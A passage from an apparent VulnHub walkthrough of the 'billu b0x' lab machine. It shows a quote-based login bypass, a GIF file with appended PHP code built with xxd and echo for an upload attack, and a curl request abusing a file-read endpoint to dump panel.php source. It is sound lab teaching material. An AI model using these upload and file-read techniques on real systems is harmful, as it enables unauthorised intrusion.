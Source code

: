 The quote now forms part of the password. This bypass works and we're into the authenticated section. We then try upload a reverse shell and we get:

![9-9.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-9.png)

It shows only the file types that are allowed. From here we can do uploads e.g. a gif
We'll generate a gif and append a payload to a gif (this should provides us with a proof of concept)

    echo 'FFD8FFEo' | xxd -r -p > my_img.gif
    echo '<?php phpinfo(); ?>' >> my_img.gif

![9-10.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-10.png)

Using `/test.php` for the LFI fails. Remember it only reads contents of a file.
Here's the code for `panel.php`.
```
root@marksmith:~# curl -d "file=panel.php" http://192.168.109.146/test  
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
header('Location: index.php', true, 302);
exit();

}

echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
unset($_SESSION['logged']);
unset($_SESSION['admin']);
header('Location: index.php', true, 302);
}
```

[1]: https://www.vulnhub.com/entry/billu-b0x,188/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator